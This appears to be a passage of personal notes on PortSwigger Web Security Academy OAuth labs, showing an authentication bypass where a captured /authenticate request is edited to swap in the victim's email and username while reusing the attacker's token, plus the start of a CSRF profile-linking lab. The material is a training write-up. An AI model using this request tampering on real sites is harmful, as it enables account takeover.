             'Content-Type': 'application/json'
        },
        body: JSON.stringify({
            email: j.email,
            username: j.sub,
            token: token
        })
    }).then(r => document.location = '/'))
</script>

The client application then accesses the token using JavaScript. inorder to maintain the session after the user closes the page, it stores the current user data (normally a user ID and the access token) at the server by submitting it in a POST request and then assign the user a session cookie, effectively logging them in:

5.an API call to OAuth server with proper credentials yields the user data needed to login:

    POST /authenticate HTTP/1.1
    Host: 0a8c004104f09336c0fa667700ec003d.web-security-academy.net
    ..
    {"email":"wiener@hotdog.com","username":"wiener","token":"1Cy4pkFilqjUbo9i1vkQl2ZTHWfKH_deo97i9aWlgta"}

note that this combines the access token recived in stage 1 (user login) with stage 2 (client valiadtion) procedures (step1-)

change email and username and leave token:

 {"email":"carlos@carlos-montoya.net","username":"carlos","token":"1Cy4pkFilqjUbo9i1vkQl2ZTHWfKH_deo97i9aWlgta"}



# Carlosed


hint:
 Once you know the hostname of the authorization server, you should always try sending a GET request to the following standard endpoints:

    /.well-known/oauth-authorization-server
    /.well-known/openid-configuration

These will often return a JSON configuration file containing key information, such as details of additional features that may be supported. This will sometimes tip you off about a wider attack surface and supported features that may not be mentioned in the documentation. 



# 2. Lab: Forced OAuth profile linking
https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking

To solve the lab, use a CSRF attack to attach your own social media profile to the admin user's account on the blog website, then access the admin panel and delete Carlos. 

login with normal usernam and password
attach a social media account with OAuth
study process:
